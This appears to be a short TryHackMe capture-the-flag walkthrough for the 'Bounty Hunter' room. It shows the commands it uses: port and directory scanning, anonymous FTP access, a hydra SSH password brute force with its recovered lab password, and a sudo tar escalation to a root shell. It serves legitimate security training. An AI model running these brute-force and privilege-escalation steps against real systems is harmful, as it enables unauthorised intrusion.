 # Bounty Hunter

**Room Link:** [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)



## Scanning

### Initial Scan

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

<pre><code><strong>nmap -p- $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH&#x20;

anonymous login works

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l lin -P locks.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

```
Username: lin
Password: RedDr4gonSynd1cat3
```

**Kali**

```
ssh lin@$VICTIM
```

## Privlege Escalation&#x20;

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

**Victim**

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

<figure><img src="../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>







